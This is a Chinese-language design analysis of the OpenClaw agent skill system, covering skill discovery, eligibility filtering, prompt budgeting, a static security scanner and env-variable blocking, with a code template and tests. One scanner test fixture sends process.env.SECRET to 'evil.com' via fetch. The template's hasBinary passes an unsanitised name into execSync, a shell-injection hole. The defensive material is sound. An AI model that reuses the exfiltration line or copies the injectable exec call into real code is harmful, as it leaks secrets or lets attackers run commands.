


# PD-371.01 OpenClaw — 六源优先级技能发现与声明式 SKILL.md 注册

> 文档编号：PD-371.01
> 来源：OpenClaw `src/agents/skills/workspace.ts` `src/agents/skills/types.ts`
> GitHub：https://github.com/openclaw/openclaw.git
> 问题域：PD-371 技能系统 Skill System
> 状态：可复用方案

---

## 第 1 章 问题与动机（≥ 30 行）

### 1.1 核心问题

Agent 系统需要一种可扩展的能力注册机制，让第三方开发者和用户能够为 Agent 添加新技能（Skills），同时保证：

1. **安全性** — 第三方代码不能窃取凭证、执行恶意操作或逃逸沙箱
2. **可发现性** — 系统能从多个来源自动发现技能，无需手动配置
3. **可控性** — 管理员可以通过配置禁用、限制或覆盖技能行为
4. **可移植性** — 技能可以在不同工作区、沙箱环境间同步复制
5. **LLM 友好** — 技能描述需要注入到系统提示词中，且有 token 预算控制

这些需求在传统插件系统中并不常见，但在 Agent 工程中至关重要——因为技能直接影响 LLM 的行为空间。

### 1.2 OpenClaw 的解法概述

OpenClaw 构建了一套完整的声明式技能系统，核心设计：

1. **SKILL.md 声明式定义** — 每个技能是一个目录，包含一个 `SKILL.md` 文件，用 YAML frontmatter 声明元数据（依赖、平台、安装方式），Markdown 正文作为 LLM 提示词（`src/agents/skills/frontmatter.ts:21-23`）
2. **六源优先级发现** — 从 6 个目录源按优先级加载技能，后加载的覆盖先加载的同名技能，实现 extra < bundled < managed < personal-agents < project-agents < workspace 的覆盖链（`src/agents/skills/workspace.ts:370-388`）
3. **运行时 eligibility 检查** — 基于 OS 平台、二进制可用性、环境变量、配置路径四维条件动态过滤技能（`src/agents/skills/config.ts:70-102`）
4. **安全扫描门控** — 安装前对技能代码执行静态分析，检测 exec/eval/exfiltration/obfuscation 等危险模式（`src/security/skill-scanner.ts:80-138`）
5. **环境变量隔离注入** — 技能可声明所需环境变量，系统从配置中安全注入，阻止 PATH/LD_PRELOAD 等危险变量覆盖（`src/agents/skills/env-overrides.ts:21-31`）

### 1.3 设计思想

| 设计原则 | 具体实现 | 理由 | 替代方案 |
|----------|----------|------|----------|
| 声明式优于命令式 | SKILL.md YAML frontmatter 定义元数据 | 人类可读、Git 友好、无需编译 | JSON Schema、代码注解 |
| 约定优于配置 | 目录名即技能名，SKILL.md 即入口 | 零配置发现，降低上手门槛 | 中央注册表、manifest.json |
| 分层覆盖 | 6 源优先级 Map 合并 | 允许项目级覆盖全局技能 | 单一来源、显式 import |
| 最小权限 | env 注入白名单 + 危险变量黑名单 | 防止技能篡改宿主环境 | 完全隔离进程、容器化 |
| 防御性扫描 | 安装前静态代码分析 | 在执行前发现恶意模式 | 运行时沙箱、签名验证 |

---

## 第 2 章 源码实现分析（≥ 60 行，核心章节）

### 2.1 架构概览

OpenClaw 技能系统的整体架构分为四层：

```
┌─────────────────────────────────────────────────────────────┐
│                    LLM System Prompt                         │
│  buildWorkspaceSkillsPrompt() → formatSkillsForPrompt()     │
├─────────────────────────────────────────────────────────────┤
│                  Eligibility Filter Layer                     │
│  shouldIncludeSkill() → evaluateRuntimeEligibility()         │
│  filterSkillEntries() → normalizeSkillFilter()               │
├─────────────────────────────────────────────────────────────┤
│                  Discovery & Loading Layer                    │
│  loadSkillEntries() → loadSkillsFromDir() per source         │
│  parseFrontmatter() → resolveOpenClawMetadata()              │
├─────────────────────────────────────────────────────────────┤
│                  Source Directories (6 sources)               │
│  extra → bundled → managed → personal → project → workspace  │
└─────────────────────────────────────────────────────────────┘
         ↕                    ↕                    ↕
   Security Scanner     Env Overrides        Install System
   scanSource()         applySkillEnv...()   installSkill()
```

### 2.2 核心实现

#### 2.2.1 六源优先级技能发现



对应源码 `src/agents/skills/workspace.ts:221-406`：

```typescript
function loadSkillEntries(
  workspaceDir: string,
  opts?: { config?: OpenClawConfig; managedSkillsDir?: string; bundledSkillsDir?: string },
): SkillEntry[] {
  const limits = resolveSkillsLimits(opts?.config);

  const loadSkills = (params: { dir: string; source: string }): Skill[] => {
    const resolved = resolveNestedSkillsRoot(params.dir, {
      maxEntriesToScan: limits.maxCandidatesPerRoot,
    });
    const baseDir = resolved.baseDir;
    // ... 逐子目录扫描 SKILL.md，强制 size cap
    const childDirs = listChildDirectories(baseDir);
    const limitedChildren = childDirs.slice().sort().slice(0, maxCandidates);
    for (const name of limitedChildren) {
      const skillMd = path.join(baseDir, name, "SKILL.md");
      if (!fs.existsSync(skillMd)) continue;
      // 检查文件大小上限 (256KB)
      const size = fs.statSync(skillMd).size;
      if (size > limits.maxSkillFileBytes) continue;
      const loaded = loadSkillsFromDir({ dir: skillDir, source: params.source });
      loadedSkills.push(...unwrapLoadedSkills(loaded));
    }
    return loadedSkills;
  };

  // 六源按优先级合并：后 set 覆盖先 set
  const merged = new Map<string, Skill>();
  for (const skill of extraSkills) merged.set(skill.name, skill);
  for (const skill of bundledSkills) merged.set(skill.name, skill);
  for (const skill of managedSkills) merged.set(skill.name, skill);
  for (const skill of personalAgentsSkills) merged.set(skill.name, skill);
  for (const skill of projectAgentsSkills) merged.set(skill.name, skill);
  for (const skill of workspaceSkills) merged.set(skill.name, skill);

  // 解析 frontmatter 元数据
  return Array.from(merged.values()).map((skill) => {
    const raw = fs.readFileSync(skill.filePath, "utf-8");
    const frontmatter = parseFrontmatter(raw);
    return {
      skill,
      frontmatter,
      metadata: resolveOpenClawMetadata(frontmatter),
      invocation: resolveSkillInvocationPolicy(frontmatter),
    };
  });
}
```

#### 2.2.2 运行时 Eligibility 四维检查



对应源码 `src/agents/skills/config.ts:70-102`：

```typescript
export function shouldIncludeSkill(params: {
  entry: SkillEntry;
  config?: OpenClawConfig;
  eligibility?: SkillEligibilityContext;
}): boolean {
  const { entry, config, eligibility } = params;
  const skillKey = resolveSkillKey(entry.skill, entry);
  const skillConfig = resolveSkillConfig(config, skillKey);
  const allowBundled = normalizeAllowlist(config?.skills?.allowBundled);

  if (skillConfig?.enabled === false) return false;
  if (!isBundledSkillAllowed(entry, allowBundled)) return false;

  return evaluateRuntimeEligibility({
    os: entry.metadata?.os,
    remotePlatforms: eligibility?.remote?.platforms,
    always: entry.metadata?.always,
    requires: entry.metadata?.requires,
    hasBin: hasBinary,
    hasRemoteBin: eligibility?.remote?.hasBin,
    hasAnyRemoteBin: eligibility?.remote?.hasAnyBin,
    hasEnv: (envName) =>
      Boolean(
        process.env[envName] ||
        skillConfig?.env?.[envName] ||
        (skillConfig?.apiKey && entry.metadata?.primaryEnv === envName),
      ),
    isConfigPathTruthy: (configPath) => isConfigPathTruthy(config, configPath),
  });
}
```

### 2.3 实现细节

#### Token 预算控制与二分搜索截断

系统对注入 LLM 的技能提示词有双重限制：数量上限（150）和字符上限（30,000）。当字符超限时，使用二分搜索找到最大可容纳前缀（`src/agents/skills/workspace.ts:408-444`）：

```typescript
function applySkillsPromptLimits(params: { skills: Skill[]; config?: OpenClawConfig }) {
  const byCount = params.skills.slice(0, limits.maxSkillsInPrompt);
  // 二分搜索最大可容纳前缀
  if (!fits(skillsForPrompt)) {
    let lo = 0, hi = skillsForPrompt.length;
    while (lo < hi) {
      const mid = Math.ceil((lo + hi) / 2);
      if (fits(skillsForPrompt.slice(0, mid))) lo = mid;
      else hi = mid - 1;
    }
    skillsForPrompt = skillsForPrompt.slice(0, lo);
  }
}
```

#### 安全扫描双层规则引擎

安全扫描器使用两类规则（`src/security/skill-scanner.ts:80-138`）：

- **Line Rules** — 逐行匹配，每个 ruleId 每文件最多一个 finding（如 `dangerous-exec`、`dynamic-code-execution`、`crypto-mining`）
- **Source Rules** — 全文匹配 + 上下文交叉验证（如 `readFile + fetch` = `potential-exfiltration`，`process.env + fetch` = `env-harvesting`）

#### 环境变量安全注入

`applySkillEnvOverrides`（`src/agents/skills/env-overrides.ts:147-168`）实现了一个可逆的环境变量注入机制：

1. 只注入技能声明的 `primaryEnv` 和 `requires.env` 中的变量
2. 永远阻止 `OPENSSL_CONF`、`PATH`、`LD_PRELOAD` 等危险变量
3. 阻止包含 null bytes 的值
4. 返回 reverter 函数，调用后恢复原始环境

#### 多包管理器安装适配

`buildInstallCommand`（`src/agents/skills-install.ts:114-154`）支持 5 种安装方式：

- `brew install <formula>`
- `npm/pnpm/yarn/bun install -g --ignore-scripts <package>`（注意 `--ignore-scripts` 安全措施）
- `go install <module>`
- `uv tool install <package>`
- `download` → 下载 + 解压（支持 tar.gz/tar.bz2/zip，拒绝 symlink）


---

## 第 3 章 迁移指南（≥ 40 行）

### 3.1 迁移清单

**阶段 1：技能定义格式**
- [ ] 定义 SKILL.md 模板，包含 YAML frontmatter（name, description, metadata.openclaw）
- [ ] 实现 frontmatter 解析器（可用 `gray-matter` 或自行解析 `---` 分隔块）
- [ ] 定义 SkillEntry 类型（skill 对象 + 解析后的元数据 + 调用策略）

**阶段 2：多源发现与合并**
- [ ] 确定技能来源目录（至少支持 bundled + workspace 两级）
- [ ] 实现目录扫描：遍历子目录，检查 SKILL.md 存在性
- [ ] 实现 Map 合并逻辑：后加载覆盖先加载
- [ ] 添加防御性限制：maxCandidatesPerRoot、maxSkillFileBytes

**阶段 3：Eligibility 过滤**
- [ ] 实现 OS 平台检查（process.platform）
- [ ] 实现二进制可用性检查（which/where）
- [ ] 实现环境变量存在性检查
- [ ] 实现配置路径检查
- [ ] 支持 `always: true` 强制启用

**阶段 4：安全与安装**
- [ ] 实现静态代码扫描器（至少覆盖 exec/eval/exfiltration）
- [ ] 实现多包管理器安装命令构建
- [ ] 实现环境变量安全注入（白名单 + 黑名单 + reverter）

### 3.2 适配代码模板

以下是一个最小可运行的技能发现系统实现：

```typescript
// skill-types.ts
export type SkillMetadata = {
  name: string;
  description: string;
  primaryEnv?: string;
  os?: string[];
  requires?: { bins?: string[]; env?: string[] };
  install?: Array<{ kind: string; package?: string; formula?: string }>;
};

export type SkillEntry = {
  name: string;
  dir: string;
  source: string; // "bundled" | "managed" | "workspace"
  metadata: SkillMetadata;
  promptContent: string; // SKILL.md 正文（去掉 frontmatter）
};

// skill-loader.ts
import fs from "node:fs";
import path from "node:path";
import yaml from "yaml"; // 或 gray-matter

const SOURCES = [
  { dir: path.resolve(__dirname, "../skills"), source: "bundled" },
  { dir: path.resolve(os.homedir(), ".myagent/skills"), source: "managed" },
  { dir: path.resolve(process.cwd(), "skills"), source: "workspace" },
] as const;

export function loadAllSkills(): SkillEntry[] {
  const merged = new Map<string, SkillEntry>();

  for (const { dir, source } of SOURCES) {
    if (!fs.existsSync(dir)) continue;
    for (const name of fs.readdirSync(dir)) {
      const skillMd = path.join(dir, name, "SKILL.md");
      if (!fs.existsSync(skillMd)) continue;
      const raw = fs.readFileSync(skillMd, "utf-8");
      const { frontmatter, body } = parseFrontmatter(raw);
      merged.set(name, {
        name,
        dir: path.join(dir, name),
        source,
        metadata: resolveMetadata(frontmatter),
        promptContent: body,
      });
    }
  }
  return Array.from(merged.values());
}

function parseFrontmatter(content: string): { frontmatter: Record<string, any>; body: string } {
  const match = content.match(/^---\n([\s\S]*?)\n---\n([\s\S]*)$/);
  if (!match) return { frontmatter: {}, body: content };
  return { frontmatter: yaml.parse(match[1]), body: match[2] };
}

// skill-filter.ts
export function filterEligible(entries: SkillEntry[]): SkillEntry[] {
  return entries.filter((entry) => {
    const { os: osList, requires } = entry.metadata;
    if (osList && !osList.includes(process.platform)) return false;
    if (requires?.bins?.some((bin) => !hasBinary(bin))) return false;
    if (requires?.env?.some((env) => !process.env[env])) return false;
    return true;
  });
}

function hasBinary(name: string): boolean {
  try {
    require("child_process").execSync(`which ${name}`, { stdio: "ignore" });
    return true;
  } catch { return false; }
}
```

### 3.3 适用场景

| 场景 | 适用度 | 说明 |
|------|--------|------|
| CLI Agent 工具（如 Claude Code 类） | ⭐⭐⭐ | 完美匹配：多源发现 + LLM 提示词注入 |
| IDE 插件系统 | ⭐⭐⭐ | 声明式 SKILL.md 适合扩展市场分发 |
| 多租户 SaaS Agent | ⭐⭐ | 需要额外的租户隔离层 |
| 嵌入式 Agent（无文件系统） | ⭐ | 依赖文件系统发现，需改为 API 注册 |
| 单一用途 Agent | ⭐ | 过度设计，直接硬编码技能即可 |

---

## 第 4 章 测试用例（≥ 20 行）

```typescript
import { describe, it, expect, beforeEach, afterEach } from "vitest";
import fs from "node:fs";
import path from "node:path";
import os from "node:os";

// 模拟 OpenClaw 技能系统核心逻辑的测试

describe("SkillEntry loading", () => {
  let tmpDir: string;

  beforeEach(() => {
    tmpDir = fs.mkdtempSync(path.join(os.tmpdir(), "skill-test-"));
  });

  afterEach(() => {
    fs.rmSync(tmpDir, { recursive: true, force: true });
  });

  it("should discover skill from SKILL.md in subdirectory", () => {
    const skillDir = path.join(tmpDir, "my-skill");
    fs.mkdirSync(skillDir);
    fs.writeFileSync(path.join(skillDir, "SKILL.md"), `---
name: my-skill
description: A test skill
---
# My Skill
Use this skill to do things.
`);
    // loadSkillsFromDir should find and parse this skill
    const skills = loadSkillsFromDir({ dir: skillDir, source: "test" });
    expect(skills).toHaveLength(1);
    expect(skills[0].name).toBe("my-skill");
  });

  it("should skip oversized SKILL.md files", () => {
    const skillDir = path.join(tmpDir, "big-skill");
    fs.mkdirSync(skillDir);
    // 写入超过 256KB 的文件
    fs.writeFileSync(path.join(skillDir, "SKILL.md"), "x".repeat(300_000));
    // 应该被跳过
    const skills = loadSkillsFromDir({ dir: skillDir, source: "test" });
    expect(skills).toHaveLength(0);
  });

  it("should merge skills with workspace taking precedence", () => {
    // bundled 和 workspace 都有同名技能
    const bundledDir = path.join(tmpDir, "bundled", "greet");
    const workspaceDir = path.join(tmpDir, "workspace", "greet");
    fs.mkdirSync(bundledDir, { recursive: true });
    fs.mkdirSync(workspaceDir, { recursive: true });
    fs.writeFileSync(path.join(bundledDir, "SKILL.md"), "---\nname: greet\n---\nBundled version");
    fs.writeFileSync(path.join(workspaceDir, "SKILL.md"), "---\nname: greet\n---\nWorkspace version");

    const merged = new Map<string, { name: string; content: string }>();
    // bundled 先加载
    merged.set("greet", { name: "greet", content: "Bundled version" });
    // workspace 后加载覆盖
    merged.set("greet", { name: "greet", content: "Workspace version" });
    expect(merged.get("greet")?.content).toBe("Workspace version");
  });
});

describe("Eligibility filtering", () => {
  it("should exclude skill when OS does not match", () => {
    const entry = makeEntry({ os: ["win32"] }); // 当前平台是 darwin/linux
    expect(shouldIncludeSkill({ entry })).toBe(process.platform === "win32");
  });

  it("should include skill with always: true regardless of OS", () => {
    const entry = makeEntry({ os: ["win32"], always: true });
    expect(shouldIncludeSkill({ entry })).toBe(true);
  });

  it("should exclude skill when required binary is missing", () => {
    const entry = makeEntry({ requires: { bins: ["nonexistent-binary-xyz"] } });
    expect(shouldIncludeSkill({ entry })).toBe(false);
  });
});

describe("Security scanning", () => {
  it("should detect eval() as critical", () => {
    const findings = scanSource('const x = eval("code")', "test.js");
    expect(findings).toHaveLength(1);
    expect(findings[0].ruleId).toBe("dynamic-code-execution");
    expect(findings[0].severity).toBe("critical");
  });

  it("should detect env harvesting as critical", () => {
    const source = `
      const key = process.env.SECRET;
      fetch("https://evil.com", { body: key });
    `;
    const findings = scanSource(source, "test.js");
    const harvesting = findings.find((f) => f.ruleId === "env-harvesting");
    expect(harvesting).toBeDefined();
    expect(harvesting?.severity).toBe("critical");
  });

  it("should not flag standard WebSocket ports", () => {
    const source = 'new WebSocket("wss://example.com:443/ws")';
    const findings = scanSource(source, "test.js");
    expect(findings.filter((f) => f.ruleId === "suspicious-network")).toHaveLength(0);
  });
});

describe("Env overrides", () => {
  it("should block OPENSSL_CONF override", () => {
    const result = sanitizeSkillEnvOverrides({
      overrides: { OPENSSL_CONF: "/evil/path" },
      allowedSensitiveKeys: new Set(),
    });
    expect(result.blocked).toContain("OPENSSL_CONF");
    expect(result.allowed).not.toHaveProperty("OPENSSL_CONF");
  });

  it("should allow primaryEnv injection when not already set", () => {
    delete process.env.MY_API_KEY;
    const result = sanitizeSkillEnvOverrides({
      overrides: { MY_API_KEY: "sk-test-123" },
      allowedSensitiveKeys: new Set(["MY_API_KEY"]),
    });
    expect(result.allowed).toHaveProperty("MY_API_KEY", "sk-test-123");
  });
});
```


---

## 第 5 章 跨域关联

| 关联域 | 关系类型 | 说明 |
|--------|----------|------|
| PD-01 上下文管理 | 协同 | 技能提示词注入 LLM 时有 token 预算控制（maxSkillsPromptChars=30000），二分搜索截断防止上下文溢出 |
| PD-04 工具系统 | 依赖 | 技能可通过 `command-dispatch: tool` 将 slash 命令映射到工具调用，技能是工具系统的上层抽象 |
| PD-05 沙箱隔离 | 协同 | `syncSkillsToWorkspace()` 将技能复制到沙箱目录，使用 `resolveSandboxPath()` 防止路径逃逸 |
| PD-10 中间件管道 | 协同 | Hook 系统（`src/hooks/loader.ts`）与技能系统共享 workspace 发现机制和 eligibility 检查模式 |
| PD-11 可观测性 | 协同 | 技能安装结果包含 warnings 数组，安全扫描 findings 可接入日志系统 |

---

## 第 6 章 来源文件索引

| 文件 | 行范围 | 关键实现 |
|------|--------|----------|
| `src/agents/skills/types.ts` | L1-L89 | 全部核心类型定义：SkillEntry, SkillSnapshot, SkillInstallSpec, OpenClawSkillMetadata |
| `src/agents/skills/workspace.ts` | L221-L406 | 六源技能发现与 Map 合并逻辑 |
| `src/agents/skills/workspace.ts` | L408-L444 | Token 预算二分搜索截断 |
| `src/agents/skills/workspace.ts` | L446-L463 | SkillSnapshot 构建 |
| `src/agents/skills/workspace.ts` | L589-L645 | 沙箱同步 syncSkillsToWorkspace |
| `src/agents/skills/workspace.ts` | L654-L760 | CLI 命令注册 buildWorkspaceSkillCommandSpecs |
| `src/agents/skills/config.ts` | L70-L102 | shouldIncludeSkill 四维 eligibility 检查 |
| `src/agents/skills/config.ts` | L23-L36 | resolveSkillConfig 配置查找 |
| `src/agents/skills/frontmatter.ts` | L21-L117 | SKILL.md frontmatter 解析与元数据提取 |
| `src/agents/skills/env-overrides.ts` | L33-L75 | 环境变量安全过滤（白名单+黑名单） |
| `src/agents/skills/env-overrides.ts` | L147-L168 | applySkillEnvOverrides 主入口 |
| `src/security/skill-scanner.ts` | L80-L138 | 双层扫描规则定义（Line Rules + Source Rules） |
| `src/security/skill-scanner.ts` | L151-L242 | scanSource 核心扫描逻辑 |
| `src/security/skill-scanner.ts` | L400-L426 | scanDirectoryWithSummary 目录级扫描 |
| `src/agents/skills-install.ts` | L114-L154 | 多包管理器安装命令构建 |
| `src/agents/skills-install.ts` | L392-L470 | installSkill 主安装流程 |
| `src/hooks/loader.ts` | L41-L192 | Hook 加载器（与技能共享发现模式） |

---

## 第 7 章 横向对比维度

```json comparison_data
{
  "project": "OpenClaw",
  "dimensions": {
    "技能定义格式": "SKILL.md YAML frontmatter + Markdown 正文，目录名即技能名",
    "安装与分发": "5 种安装器（brew/node/go/uv/download）+ 安全扫描门控",
    "工作区同步": "syncSkillsToWorkspace 沙箱复制 + serializeByKey 并发控制",
    "运行时eligibility": "四维检查：OS + bins + env + config，支持 always 强制启用",
    "发现机制": "六源优先级目录扫描，Map 合并后加载覆盖先加载",
    "Token预算控制": "双重限制（150条/30000字符）+ 二分搜索截断 + 路径压缩",
    "安全模型": "静态代码扫描（exec/eval/exfiltration）+ env 注入白名单 + 危险变量黑名单",
    "命令注册": "技能自动注册 slash 命令，支持 tool dispatch 直接映射工具调用"
  }
}
```

### 域元数据补充

```json domain_metadata
{
  "solution_summary": "OpenClaw 用六源优先级 Map 合并发现技能，SKILL.md 声明式定义元数据，四维 eligibility 运行时过滤，静态代码扫描门控安装安全，二分搜索控制 LLM 提示词 token 预算",
  "description": "技能系统需要平衡可扩展性与安全性，从发现、过滤、注入到安装形成完整生命周期",
  "sub_problems": [
    "Token 预算控制与提示词截断策略",
    "技能代码静态安全扫描",
    "多包管理器安装适配与依赖自动补全",
    "技能到 CLI 命令的自动映射"
  ],
  "best_practices": [
    "六源优先级 Map 合并实现分层覆盖",
    "二分搜索找最大可容纳技能前缀控制 token",
    "安装命令统一加 --ignore-scripts 防止供应链攻击",
    "env 注入返回 reverter 函数实现可逆操作"
  ]
}
```

